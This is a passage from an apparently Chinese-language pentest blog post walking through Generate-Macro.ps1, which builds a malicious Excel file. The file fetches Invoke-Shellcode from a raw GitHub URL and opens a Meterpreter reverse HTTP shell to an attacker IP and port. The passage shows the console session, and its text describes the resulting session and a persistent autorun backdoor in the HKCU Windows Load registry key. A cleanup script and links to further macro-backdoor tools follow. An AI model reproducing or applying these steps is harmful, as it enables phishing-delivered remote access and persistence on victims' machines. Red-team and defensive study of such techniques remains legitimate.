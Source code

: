 ```
PS C:\Users\Evi1cg\Desktop> . .\Generate-Macro.ps1
Enter URL of Invoke-Shellcode script (If you use GitHub, use the raw version): https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-Shellcode.ps1
Enter IP Address: 192.168.2.111
Enter Port Number: 6666
Enter the name of the document (Do not include a file extension): Macro

--------Select Attack---------
1. Meterpreter Shell with Logon Persistence
2. Meterpreter Shell with Powershell Profile Persistence (Requires user to be local admin)
3. Meterpreter Shell with Alternate Data Stream Persistence
4. Meterpreter Shell with Scheduled Task Persistence
------------------------------
Select Attack Number & Press Enter: 1

--------Select Payload---------
1. Meterpreter Reverse HTTPS
2. Meterpreter Reverse HTTP
------------------------------
Select Payload Number & Press Enter: 2
Saved to file C:\Users\Evi1cg\Desktop\Macro.xls
Clean-up Script located at C:\Users\Evi1cg\Desktop\RegistryCleanup.ps1

```

![Alt text](http://drops.javaweb.org/uploads/images/0257ed6ac28ce6e8844a83b21223721cff835c9b.jpg)

运行Excel以后则生成meterpreter会话：

![Alt text](http://drops.javaweb.org/uploads/images/29b1771580762a320f39ab07bfc64adac0088bf5.jpg)

同时生成自启动后门：

![Alt text](http://drops.javaweb.org/uploads/images/b84238921e158e8f69e01c62c492b82cb300e6b7.jpg)

> 具体键值为`HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load`

清除后门可以使用如下命令：

```
PS C:\Users\Evi1cg\Desktop> . .\RegistryCleanup.ps1
[*]Successfully Removed config.vbs from C:\Users\Public
[*]Successfully Removed Malicious Load entry from HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows
[!]Path not valid
[!]Path not valid

```

具体其他后门的使用，有兴趣的小伙伴可是自己实践一下。

其他Macro后门相关的脚本如下：

*   [Old-Powershell-payload-Excel-Delivery](https://github.com/enigma0x3/Old-Powershell-payload-Excel-Delivery)
*   [OutlookPersistence](https://github.com/enigma0x3/OutlookPersistence)
*   [exe2vba.rb](https://raw.githubusercontent.com/OpenWireSec/metasploit/master/tools/exe2vba.rb)
*   [unicorn](https://github.com/trustedsec/unicorn.git)
